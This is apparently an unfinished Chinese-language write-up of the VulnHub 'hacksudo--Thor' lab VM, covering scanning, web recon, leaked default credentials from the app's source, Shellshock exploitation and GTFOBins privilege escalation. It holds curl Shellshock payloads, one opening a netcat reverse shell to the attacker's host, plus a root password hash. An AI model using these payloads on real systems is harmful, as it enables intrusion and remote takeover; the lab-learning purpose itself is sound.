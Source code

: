 > 靶机环境介绍
+ [hacksudo--Thor](https://download.vulnhub.com/hacksudo/hacksudo---Thor.zip) 
+ 难度等级 <font color=yellow> 中</font>

目标:
+ 取得 root 权限 +  Flag


**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ **开源源代码泄露**
+ 默认账号密码
+ SQL 注入
+ 破壳漏洞
+ GTFOBins提权

## 主机发现与端口扫描

主机发现

```bash
sudo arp-scan -l
```
![2022-08-23_14-30.png](./mechine10.assets/2022-08-23_14-30.png)
发现目标靶机为 `10.0.2.14`

然后进行全端口扫描
```bash
sudo nmap -p- 10.0.2.14
```

![2022-08-23_14-31.png](./mechine10.assets/2022-08-23_14-31.png)

发现目标靶机开放了 `22,80` 端口

然后我们对其进行服务版本的扫描
```bash
sudo nmap -p22,80 -sV -sC 10.0.2.14
```

![2022-08-23_14-32.png](./mechine10.assets/2022-08-23_14-32.png)

## Web 信息收集

既然开放了 80 端口，我们照常使用浏览器来访问一下这个目标靶机开放的网站服务。

> 发现是一个银行系统，并且首页有一个登入表单

![2022-08-23_14-33.png](./mechine10.assets/2022-08-23_14-33.png)

既然有表单，我们就先尝试一下弱口令，如 `admin/admin admin/123456 ...`

发现主流的弱口令密码都没能成功登入进去.
![2022-08-23_14-34.png](./mechine10.assets/2022-08-23_14-34.png)

这个时候我们就可以去查看一下网站的源代码，去尝试在源代码里面发现一些有用的信息。

<font color='red' face=Monaco size=3>我们在首页的源码里面发现了该网站存在 `images` 路径。</font>

![2022-08-23_14-37.png](./mechine10.assets/2022-08-23_14-37.png)

所以我们使用浏览器去访问了一下这个目录，发现就一些普通的图片并没有一些有用价值的信息.

![2022-08-23_14-38.png](./mechine10.assets/2022-08-23_14-38.png)

![2022-08-23_14-41.png](./mechine10.assets/2022-08-23_14-41.png)

![2022-08-23_14-43.png](./mechine10.assets/2022-08-23_14-43.png)
![2022-08-23_14-49.png](./mechine10.assets/2022-08-23_14-49.png)
## 开源代码泄露

## 破壳漏洞


## GTF0Bins 提权

[Github link](https://github.com/zakee94/online-banking-system)

```sql
INSERT INTO `customer` VALUES (
    (1,'Nafees','Zakee','male','1994-11-28',123456789,'zakee.nafees@gmail.com','+91 8918722499','22/10, Secondary Road, Durgapur - 713204','delhi',1122334455,1234,'zakee94','nafees123'),
    (2,'Md Salman','Ali','male','1994-10-11',987654321,'ali.salman@gmail.com','+966 895432167','Al Ahsa Street Malaz, King Abdulaziz Rd, Alamal Dist. RIYADH 12643-2121.','riyadh',1133557788,1234,'salman','salman123'),
    (3,'Tushar','Kr. Pandey','male','1995-02-03',125656765,'tusharpkt@gmail.com','+334 123456987','Champ de Mars, \r\n5 Avenue Anatole France, \r\n75007 Paris, France','paris',1122338457,1357,'tushar','tushar123'),
    (4,'Jon','Snow','male','1985-02-03',129156787,'jon.snow@gmail.com','+1 8918332797','The Night Watch,\r\nKing in the North,\r\nThe North Remembers,\r\nWesteros.','newyork',1233556739,1234,'jon','snow123');
```

```bash
zakee94,nafees123
salman,salman123
tushar,tushar123
jon,snow123
```
```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/shell.sh,cmd=ls 10.0.2.14
```
```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls 10.0.2.14
```

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'which nc'" \http://10.0.2.14/cgi-bin/shell.sh
```

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'nc -e /bin/bash 10.0.2.11 4444'" \http://10.0.2.14/cgi-bin/shell.sh
```

```bash
#!/bin/bash
echo
echo "HELLO want to talk to Thor?"
echo 

read -p "Enter Thor  Secret Key : "  key
read -p "Hey Dear ! I am $key , Please enter your Secret massage : " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

```hash
root:$6$1YV0h.2rYTAvcB.o$cLPgAevmbnBo8dtADheWYcIfGLg157gfrCzZsKqv268MDkimBW7JcnQK6sI79fXsa1Hm5GmP8Kni05w.2nJfc0:18838:0:99999:7:::
```

[text](https://gtfobins.github.io)



![2022-08-23_14-53.png](./mechine10.assets/2022-08-23_14-53.png)
![2022-08-23_21-34.png](./mechine10.assets/2022-08-23_21-34.png)
![2022-08-23_21-37.png](./mechine10.assets/2022-08-23_21-37.png)
![2022-08-23_21-38.png](./mechine10.assets/2022-08-23_21-38.png)
![2022-08-23_21-53.png](./mechine10.assets/2022-08-23_21-53.png)
![2022-08-23_21-54.png](./mechine10.assets/2022-08-23_21-54.png)
![2022-08-23_21-57.png](./mechine10.assets/2022-08-23_21-57.png)
![2022-08-23_21-59.png](./mechine10.assets/2022-08-23_21-59.png)
![2022-08-23_22-00.png](./mechine10.assets/2022-08-23_22-00.png)
![2022-08-23_22-01.png](./mechine10.assets/2022-08-23_22-01.png)
![2022-08-23_22-08.png](./mechine10.assets/2022-08-23_22-08.png)
![2022-08-23_22-09.png](./mechine10.assets/2022-08-23_22-09.png)
![2022-08-23_22-10.png](./mechine10.assets/2022-08-23_22-10.png)
![2022-08-23_22-11.png](./mechine10.assets/2022-08-23_22-11.png)
![2022-08-23_22-28.png](./mechine10.assets/2022-08-23_22-28.png)
![2022-08-23_22-29.png](./mechine10.assets/2022-08-23_22-29.png)
![2022-08-23_22-32.png](./mechine10.assets/2022-08-23_22-32.png)
![2022-08-23_22-39.png](./mechine10.assets/2022-08-23_22-39.png)
![2022-08-23_22-40.png](./mechine10.assets/2022-08-23_22-40.png)
![2022-08-23_22-42.png](./mechine10.assets/2022-08-23_22-42.png)
![2022-08-23_22-44.png](./mechine10.assets/2022-08-23_22-44.png)
![2022-08-23_22-48.png](./mechine10.assets/2022-08-23_22-48.png)
![2022-08-23_22-51.png](./mechine10.assets/2022-08-23_22-51.png)
![2022-08-23_22-53.png](./mechine10.assets/2022-08-23_22-53.png)
![2022-08-23_22-56.png](./mechine10.assets/2022-08-23_22-56.png)
![2022-08-23_22-57.png](./mechine10.assets/2022-08-23_22-57.png)
![2022-08-23_23-00.png](./mechine10.assets/2022-08-23_23-00.png)
![2022-08-23_23-01.png](./mechine10.assets/2022-08-23_23-01.png)
![2022-08-23_23-08.png](./mechine10.assets/2022-08-23_23-08.png)
![2022-08-23_23-10.png](./mechine10.assets/2022-08-23_23-10.png)
![2022-08-23_23-11.png](./mechine10.assets/2022-08-23_23-11.png)
![2022-08-23_23-12.png](./mechine10.assets/2022-08-23_23-12.png)
![2022-08-23_23-15.png](./mechine10.assets/2022-08-23_23-15.png)
![2022-08-23_23-17.png](./mechine10.assets/2022-08-23_23-17.png)
![2022-08-23_23-18.png](./mechine10.assets/2022-08-23_23-18.png)
![2022-08-23_23-21.png](./mechine10.assets/2022-08-23_23-21.png)
![2022-08-23_23-22.png](./mechine10.assets/2022-08-23_23-22.png)
![2022-08-23_23-23.png](./mechine10.assets/2022-08-23_23-23.png)